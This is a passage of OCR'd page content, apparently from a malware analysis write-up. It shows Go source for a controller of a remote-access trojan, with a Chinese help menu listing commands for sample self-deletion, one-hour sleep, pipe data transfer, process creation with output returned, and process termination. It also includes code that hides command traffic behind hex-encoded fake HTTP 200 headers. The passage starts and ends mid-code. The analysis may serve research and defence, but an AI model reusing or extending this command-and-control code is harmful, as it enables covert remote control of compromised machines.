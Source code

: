 ```bash
                            } else if text == "30" {
                                common.Command_30(conn, buf_command)
                            }
                        }
                    }
                }
            } else if text == "34" || text == "11" || text == "12" {
                common.Command_34(conn, text)
                if text == "11" {
                    break
                }
            } else if text == "help" {
                fmt.Println("********支持功能如下********")
                fmt.Println("11：样本自删除")
                fmt.Println("12：休眠1小时")
                fmt.Println("30：向管道传输数据")
                fmt.Println("33：创建进程，并返回进程回显信息")
                fmt.Println("34：终止33指令运行的进程程序")
                fmt.Println("**************************")
            }
        }
        if err := reader.Err(); err != nil {
            fmt.Fprintln(os.Stderr, "读取标准输入时发生错误:", err)
            os.Exit(1)
        }
    }
}
```

-   command.go

```bash
package common

import (
    "encoding/hex"
    "fmt"
    "net"
    "strconv"
    "strings"
    "time"
)

func Command_33(conn net.Conn, command string) {
    sendcommond33(conn, command)

    data_header := RecvHeader(conn)
    fmt.Println(string(data_header))

    data_len, _ := strconv.Atoi(strings.ReplaceAll(strings.Split(strings.Split(string(data_header), "Content-Length: ")[1], "Connection:")[0], "\r\n", ""))

    time.Sleep(500 * time.Millisecond)

    data_buf := recvBuf(conn, data_len)
    fmt.Println(string(BytesToGB2312(data_buf)))
}

func sendcommond33(conn net.Conn, command string) {
    res_newline, _ := hex.DecodeString("0D0A")
    //HTTP/1.1 200 OK
    //Content-Type: text/html
    res1, _ := hex.DecodeString("485454502F312E3120323030204F4B200D0A436F6E74656E742D547970653A20746578742F68746D6C0D0A")
```